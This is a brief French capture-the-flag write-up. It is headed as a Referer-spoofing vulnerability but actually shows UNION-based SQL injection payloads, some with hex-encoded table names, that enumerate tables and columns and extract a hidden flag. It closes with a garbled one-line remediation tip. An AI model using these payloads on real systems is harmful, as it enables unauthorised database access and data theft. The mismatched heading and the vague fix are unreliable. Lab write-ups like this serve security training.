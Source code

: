 # Vulnérabilité de Referer Spoofing (Falsification de Referer)

## Découverte

On voit que l'on doit recuperer le flag dans les images

Print toute les tables pour trouver la table des images
```
1 UNION SELECT table_name, NULL FROM information_schema.tables -- 
```

Checker toute les columns de la table list_images

```
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=0x6C6973745F696D61676573 --
```
la table contient les column :

    - id
    - url
    - title
    - comment

On teste les sortie, je mets ca dans image numbers 

```
1 UNION SELECT url, comment FROM list_images WHERE url=0x626f726e746f7365632e64646e732e6e65742f696d616765732e706e67 --
```
et ca sort le flag albatroz dechffre en MD5 et si on l'encrypte en sha256 on obtient le flag


## Protection
Il faut verifier si il n'y a pas e SQL dans les requetes si on les inseres apres dans les requetes sql 
